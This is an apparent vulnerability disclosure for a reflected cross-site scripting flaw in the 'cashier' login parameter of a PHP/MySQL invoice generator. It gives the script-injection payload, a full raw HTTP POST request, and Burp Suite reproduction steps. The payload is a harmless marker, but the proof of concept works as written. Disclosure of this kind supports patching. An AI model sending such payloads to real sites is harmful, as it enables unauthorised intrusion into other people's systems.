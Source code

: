 # Simple Invoice Generator System using PHP and MySQL by oretnom23 has Cross-site Scripting

#### BUG_Author: xxxw

vendors:https://www.sourcecodester.com/php/16991/simple-invoice-generator-system-using-php-and-mysql.html

Payload: cashier=1'"()%26%25<zzz><ScRiPt%20>DDRe(9741)</ScRiPt>

#### Request :

```html
POST /php-invoice/login.php HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.3.11/php-invoice/
Cookie: PHPSESSID=rcgpic00c0dnqpe4d102ifi378
Content-Length: 54
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Host: 192.168.3.11
Connection: Keep-alive

cashier=1'"()%26%25<zzz><ScRiPt%20>DDRe(9741)</ScRiPt>
```



#### Response：

![](https://gitee.com/xw1150/images/raw/master/img/202312061330085.png)

#### use burpsuit

1. login site click login select Cashier1

![image-20231206132634688](https://gitee.com/xw1150/images/raw/master/img/202312061326738.png)

2.  set cashier = 1'"()%26%25<zzz><ScRiPt%20>DDRe(9741)</ScRiPt>

![image-20231206132953684](https://gitee.com/xw1150/images/raw/master/img/202312061329722.png)

3.  response

![image-20231206133058028](https://gitee.com/xw1150/images/raw/master/img/202312061330085.png)